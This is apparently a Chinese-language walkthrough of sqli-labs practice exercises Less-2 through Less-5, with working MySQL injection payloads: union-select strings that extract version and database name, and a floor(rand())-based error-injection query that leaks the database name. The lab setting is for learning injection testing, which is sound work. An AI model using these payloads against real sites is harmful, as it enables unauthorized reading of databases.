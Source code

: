 
## Less-2
由'和"的错误信息可以知道，id的数据类型为整形
其他的测试过程同Less-1


## Less-3
由错误信息可知，id的数据类型为字符型，单引号，并且用)包裹了起来
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```
所以poc
```
id=100') union select 1, version(), database() --+
```


## Less-4
与上一题相比只是将单引号变为了双引号
poc
```
1000") union select 1,version(), database() --+
```


## Less-5
测试不同状态页面的反应可知，在查询到结果时的
```
Welcome    Dhakkan
You are in...........
```
查询不到结果时
```
Welcome    Dhakkan
```
在出错时，正常显示出错信息，那么上面使用的方法在这里不再适用，因为不会再把union查询出的数据显示出来，所以我们需要使用mysql特有的报错来写poc

利用下文中的延伸拓展的mysql的经典报错方式
使用第一种进行注入测试
```
id=1' union select 1, (select count(*), concat(floor(rand(0)*2), 0x5e5e, database())x from information_schema.tables group by x), 3 --+
```
出错信息如下
```
Operand should contain 1 column(s)
```
可以看出列数太多，变换一下
```
id=1' union select 1, (select 1 from(select count(*), concat(floor(rand(0)*2), 0x5e5e, database())x from information_schema.tables group by x)y), 3 --+
```
可以看出成功爆出数据库名
